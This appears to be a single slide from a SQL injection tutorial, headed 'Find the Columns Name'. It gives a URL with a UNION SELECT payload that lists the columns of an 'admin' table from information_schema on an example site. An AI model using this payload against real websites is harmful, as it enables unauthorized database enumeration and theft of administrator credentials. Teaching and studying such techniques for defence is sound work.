

# Find the Columns Name
http://www.examplesite.com/index.php?id=-5 union select 1,2,column_name,4,5,6,7,8,9,10 from information_schema.columns where table_name="admin"--